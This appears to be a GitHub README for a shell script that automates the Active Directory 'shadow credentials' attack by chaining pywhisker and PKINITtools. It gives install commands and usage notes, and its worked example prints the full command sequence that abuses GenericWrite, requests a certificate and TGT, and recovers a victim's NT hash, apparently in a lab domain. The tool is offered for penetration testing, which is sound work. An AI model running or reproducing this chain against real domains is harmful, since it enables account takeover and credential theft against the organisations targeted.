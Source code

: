 ## Dependancies
1. Requires pywhisker to be installed with pipx `pipx install git+https://github.com/ShutdownRepo/pywhisker.git`
2. Requires gettgtpkinit.py and getnthash.py from https://github.com/dirkjanm/PKINITtools/tree/master. I recommend cloning the repo and setting the tools as static variables in the script. I set mine like this.
```
# Full paths to gettgtpkinit.py and getnthash.py
GETTGT_PY="/home/kali/Transfers/PKINITtools/gettgtpkinit.py"
GETNTHASH_PY="/home/kali/Transfers/PKINITtools/getnthash.py"
```
3. Requires the necessary modules needed to run gettgtpkinit.py and getnthash.py. These are typically already satisfied in the latest release of Kali Linux. For other operating systems, please consult requirements.txt on the PKINITtools repo.

## Usage
This script combines pywhisker,  gettgtpkinit.py and getnthash.py to exploit GenericWrite Active Directory privilege set over a Domain User or Computer Object(machine account) to perform the "shadow credentials" attack, requires ADCS to be properly configured on the domain controller.
Pywhisker is used to obtain a certificate for the targeted user, gettgtpkinit.py is used to obtain a TGT using the previously obtained certificate and finally getnthash.py is used to extract the NT hash from the TGT.

## Example
```
$ ./GenericWrite_ADCS.sh contoso.local p.thompson 'Password123!' j.kelly 10.129.86.37
[*] Starting attack for: j.kelly@contoso.local
[*] Requesting certificate with pywhisker...
    pywhisker -d "contoso.local" -u "p.thompson" -p "Password123!" --target "j.kelly" --action 'add' --dc-ip "10.129.86.37" > pywhisker_output.txt
[+] PFX file: 6IeF2D54.pfx
[+] PFX password: HWZMazba3gNZljp86FVN
[*] Requesting TGT with the certificate 6IeF2D54.pfx...
    python3 "/home/kali/Transfers/PKINITtools/gettgtpkinit.py" -dc-ip "10.129.86.37" -cert-pfx "6IeF2D54.pfx" -pfx-pass "HWZMazba3gNZljp86FVN" "contoso.local/j.kelly" ccache_j.kelly > gettgt_output.txt 2>&1
[+] AES key: aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d
[*] Extracting NT hash from the ticket using the AES key...
    python3 "/home/kali/Transfers/PKINITtools/getnthash.py" "contoso.local/j.kelly" -key "aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d" -dc-ip "10.129.86.37"
[*] Recovered NT Hash: 22151d74ba3de9317892cba1f9393a37
```

## Disclaimer
This script is an automation wrapper for existing tools and is intended for educational and authorized testing purposes only. **Full credit goes to the original authors of these tools**. The author of this script is not responsible for any misuse or unauthorized application of this script.
